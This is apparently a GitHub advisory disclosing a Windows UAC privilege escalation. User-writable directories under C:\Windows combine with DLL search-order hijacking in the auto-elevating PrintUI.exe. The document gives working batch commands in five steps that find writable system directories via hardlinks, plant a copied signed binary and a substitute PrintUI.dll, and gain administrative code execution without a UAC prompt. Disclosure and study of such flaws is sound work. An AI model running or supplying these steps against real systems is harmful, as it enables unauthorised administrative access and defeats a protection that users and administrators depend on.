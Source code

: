# Microsoft-Windows-UAC-Privilege-Escalation
Microsoft Windows can dupe users into trusting executables with DLL hijacking and privilege escalation issues

Hi @ll,

Microsoft still ships Windows with and lets it create user-writable
directories below the "Windows" directory %SystemRoot%\ -- despite
that, with exception of %SystemRoot%\Temp\, they are all used to
store DATA and SHOULD have been placed below %ProgramData% alias
%SystemDrive%\ProgramData\ instead!

JFTR: %ProgramData% was introduced with Windows Vista more than 15
      (in words: FIFTEEN) years ago, but Microsoft obviously just
      doesn't care to cleanup their mess.

Authenticode signature verification, for example required to color the
UAC prompt yellow (untrusted) or blue (trusted) and as precondition
for the "auto-elevation" (mis)feature of some 63+ applications shipped
with Windows 7 and ALL later versions, doesn't care about the filename
of an executable, but (eventually) evaluates the pathname of the
(application) directory.


Put together these two weaknesses allow to run arbitrary code WITH
administrative rights in several (user-writable) directories below
C:\Windows: in the account created during Windows setup without UAC
prompt, in (unprivileged) standard user accounts with (blue) UAC prompt!

### CVSS 3.0 score: 8.2 (High)
### CVSS 3.0 vector: 3.0/AV:L/AC:L/PR:L/UI:R/S:C/C:H/I:H/A:H


# Demonstration

1. Log on to an arbitrary unprivileged (standard) user account and start
   the command processor, then run the following command lines to detect
   the user-writable directories below %SystemRoot%\ through creation of
   a hardlink named WRITABLE.EXE and collect their pathnames in the file
   %ProgramData%\WRITABLE.LOG:
   
```
   COPY /Y NUL: "%ProgramData%\WRITABLE.LOG" && (
   DIR "%SystemRoot%" /A:D /B /S 1>"%ProgramData%\WRITABLE.TMP" && (
   FOR /F "Delims= UseBackQ" %? IN ("%ProgramData%\WRITABLE.TMP") DO @(
   MKLINK /H "%~?\WRITABLE.EXE" "%ProgramData%\WRITABLE.LOG" 2>NUL: && 1>>"%ProgramData%\WRITABLE.LOG" ECHO %~?))
   TYPE "%ProgramData%\WRITABLE.LOG")
```   

   On fresh installations of Windows 10 2004/20H1/20H2 for AMD64 alias
   x64 processors this yields the following pathnames:

```
   C:\Windows\Tasks
   C:\Windows\Temp
   C:\Windows\tracing
   C:\Windows\Registration\CRMLog
   C:\Windows\System32\FxsTmp
   C:\Windows\System32\Tasks
   C:\Windows\System32\Com\dmp
   C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
   C:\Windows\System32\spool\PRINTERS
   C:\Windows\System32\spool\SERVERS
   C:\Windows\System32\spool\drivers\color
   C:\Windows\SysWOW64\FxsTmp
   C:\Windows\SysWOW64\Tasks
   C:\Windows\SysWOW64\Com\dmp
```   

   On installations which were upgraded to (any version of) Windows 10,
   the following additional pathname is typically listed:
   
```
   C:\Windows\System32\Tasks_Migrated
```   

   On installations which have been used for some time, the following
   additional pathnames are typically listed:
   
```
   C:\Windows\debug\WIA
   C:\Windows\PLA\Reports
   C:\Windows\PLA\Rules
   C:\Windows\PLA\Templates
   C:\Windows\PLA\Reports\de-DE
   C:\Windows\PLA\Reports\en-GB
   C:\Windows\PLA\Reports\en-US
   ...
   C:\Windows\PLA\Reports\ru-RU
   C:\Windows\PLA\Rules\de-DE
   C:\Windows\PLA\Rules\en-GB
   C:\Windows\PLA\Rules\en-US
   ...
   C:\Windows\PLA\Rules\ru-RU
   C:\Windows\System32\catroot2\{F750E6C3-38EE-11D1-85E5-00C04FC295EE}
   C:\Windows\System32\LogFiles\WMI
```

2. Let's see whether the hardlinks WRITABLE.EXE can be (ab)used: copy an
   arbitrary executable to all of them and execute it.

   JFTR: PrintUI.exe is one of the 63+ applications which have UAC auto-
         elevation enabled.
       
```
   SETLOCAL ENABLEDELAYEDEXPANSION
   COPY /Y "%ProgramData%\WRITABLE.LOG" "%ProgramData%\WRITABLE.TMP" && (
   COPY /Y "%SystemRoot%\System32\PrintUI.exe" "%ProgramData%\WRITABLE.LOG" && (
   FOR /F "Delims= UseBackQ" %? IN ("%ProgramData%\WRITABLE.TMP") DO (
   START "" /WAIT "%~?\WRITABLE.EXE"
   ECHO !ERRORLEVEL!)))
```   

   In unprivileged (standard) user accounts this triggers an UAC prompt
   for each file executed, some yellow, showing "Publisher: Unknown",
   some blue showing "Verified Publisher: Microsoft Windows".

   After giving consent to the UAC prompt a dialog box showing usage
   instructions for PrintUI.dll is displayed, indicating that (the copy
   of) PrintUI.exe loads PrintUI.dll:
   
```
   | Usage: rundll32 printui.dll,PrintUIEntry [options] [@commandfile]
```   

   JFTR: since PrintUI.exe runs elevated, PrintUI.dll runs elevated too!


3. Let's verify the Authenticode signature of the copy of PrintUI.exe:

```
   SignTool.exe VERIFY /A /V "%ProgramData%\WRITABLE.LOG"

   | Verifying: C:\ProgramData\WRITABLE.LOG
   | File is signed in catalog: C:\Windows\system32\CatRoot\{F750E6C3-38EE-11D1-85E5-
00C04FC295EE}\ntexe.cat
   ...
   | Successfully verified: C:\ProgramData\WRITABLE.LOG
   ...
```

   Authenticode doesn't care about the path/filename of signed executables,
   even for files with detached signatures, although the *.CAT files used
   to distribute detached digital signatures can store the filename!


4. Let's see whether PrintUI.exe follows the guidance given by the MSRC
   (Microsoft Security Response Center) in the almost 7 year old blog post
   <https://blogs.technet.microsoft.com/srd/2014/05/13/load-library-safely/>.
   the more than 10 year old security advisory
   <https://technet.microsoft.com/en-us/library/2269637.aspx>, or the nearly
   10 year old MSKB articles <https://support.microsoft.com/en-us/kb/2389418>
   and <https://support.microsoft.com/en-us/kb/2533623>: copy ShUnimpl.dll
   as PrintUI.dll next to the copy of PrintUI.exe and execute the latter.

   JFTR: ShUnimpl.dll is the graveyard for obsolete "shell" functions; its
         _DllMainCRTStartup() entry point function returns FALSE to disable
         their use, lets the module loader fail with NTSTATUS 0xC0000142
         alias STATUS_DLL_INIT_FAILED, and lets LoadLibrary() fail with the
         Win32 error 1114 alias ERROR_DLL_INIT_FAILED

```
   COPY "%SystemRoot%\System32\ShUnimpl.dll" "%ProgramData%\PrintUI.dll"
   RENAME "%ProgramData%\WRITABLE.LOG" PrintUI.exe
   START "" /WAIT "%ProgramData%\PrintUI.exe"
   CERTUTIL.exe /ERROR %ERRORLEVEL%
```

   OUCH: (the copy of) PrintUI.exe loads an arbitrary PrintUI.dll from its
         application directory instead of %SystemRoot%\System32\PrintUI.dll

   The Common Weaknesses and Exposures classifies such misbehavior, which
   results in arbitrary code execution (here with escalation of privilege),
   as
   - CWE-426: Untrusted Search Path
     <https://cwe.mitre.org/data/definitions/426.html>
   - CWE-427: Uncontrolled Search Path Element
     <https://cwe.mitre.org/data/definitions/427.html>

   The Common Attack Pattern Enumeration and Classification lists it as
   - CAPEC-471: Search Order Hijacking
     <https://capec.mitre.org/data/definitions/471.html>

   JFTR: (un)fortunately PrintUI.dll is not the only DLL that PrintUI.exe
         loads from an unsafe path, and (un)fortunately PrintUI.exe is not
         the only auto-elevating application which loads DLLs from unsafe
         paths!

   A really big "Hooray!" to Microsoft's sloppy, careless and clueless
   developers as well as their sound asleep quality^Wmiserability assurance!


5. Let's see whether UAC auto-elevation is also possible in at least one
   of the user-writable directories: log on to the UAC-controlled user
   account created during Windows setup, start an UNELEVATED (unprivileged)
   command prompt and run the following command lines:

```
   SETLOCAL ENABLEDELAYEDEXPANSION
   FOR /F "Delims= UseBackQ" %? IN ("%ProgramData%\WRITABLE.TMP") DO (
   MKLINK /H "%~?\PrintUI.dll" "%ProgramData%\PrintUI.dll" && (
   START "" /WAIT "%~?\WRITABLE.EXE"
   ECHO !ERRORLEVEL!))

```

   BINGO: GAME OVER!

   UAC performs auto-elevation at least in the directories
   C:\Windows\System32\CatRoot2\{F750E6C3-38EE-11D1-85E5-00C04FC295EE}\
   and C:\Windows\System32\Tasks_Migrated\; a copy of PrintUI.exe run in
   these directories loads/executes an arbitrary PrintUI.dll placed there
   too, with ADMINISTRATIVE privileges, without UAC prompt.

   JFTR: even without UAC auto-elevation, this beginner's error present in
         PrintUI.exe (really: almost all applications shipped with Windows)
         allows to fool Jane and Joe Average who typically give consent to a
         blue UAC prompt which shows "Certified Publisher: Microsoft Windows".

